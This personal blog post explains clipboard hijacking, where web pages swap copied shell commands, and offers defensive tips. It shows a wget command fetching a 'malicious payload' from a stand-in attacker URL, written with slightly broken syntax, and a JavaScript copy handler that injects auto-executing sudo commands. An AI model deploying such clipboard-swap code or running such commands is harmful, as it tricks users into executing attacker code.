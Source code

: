 ```yaml
---
title: Beware copy/pasting code or commands from the internet
description: You never really know what is being added to your clipboard...
posted: "2020-10-19"
updated: "2021-03-19"
image: /assets/images/posts/arget-zvHhKiVuR9M-unsplash.jpg
credit:
  [
    Arget,
    https://unsplash.com/@arget?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


Credit to [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html) for bringing the topic/issue to my attention!

---

## The Problem

As an avid Linux user and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way&apos;s I haven&apos;t considered before.

An example of this from Brian Tracy is how the data you &ldquo;copy&rdquo; from a website isn&apos;t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don&apos;t worry if you don&apos;t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it&apos;s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain',
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line `\n` character, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

- While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
- Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
